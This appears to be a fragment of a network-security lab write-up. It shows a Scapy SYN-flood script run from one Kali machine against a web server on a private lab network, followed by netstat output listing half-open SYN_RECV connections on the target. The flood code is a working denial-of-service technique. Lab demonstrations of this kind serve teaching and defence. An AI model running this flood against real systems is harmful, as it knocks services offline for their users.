 Chain OUTPUT (policy ACCEPT)

target     prot opt source               destination        

@Kali#2

\>>> ip = IP()

\>>> ip.dst= "192.168.111.130"

\>>> tcp = TCP()

\>>> tcp.dport = 80

\>>> tcp.sport = RandNum(1024,65535)

\>>> tcp.flags = "S"

\>>> syn = ip/tcp

\>>> send(syn, loop=True)

@Kali#1

![img](https://lh3.googleusercontent.com/gkGgpKDZ2gagA04UrlGlze8BbV5KL7LSeejKjMxOUvPPQROPfDcT0O67MuXCqitJwUJmU5p5PMXAUH_ouu0eHdY3iGbvOB6qpjfJ-7Nm1f43xMVKc9MC9XecTYTEjcoQ4A)

root@kali:~# netstat -an | grep -i syn_recv

tcp6       0      0 192.168.111.130:80      192.168.111.131:31498   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:13962   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:58815   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:62506   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:60498   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:57556   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:19512   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:38476   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:50493   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:20851   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:20618   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:59819   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:58459   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:36364   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:15042   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:49831   SYN_RECV   

tcp6       0      0 192.168.111.130:80      192.168.111.131:18564   SYN_RECV   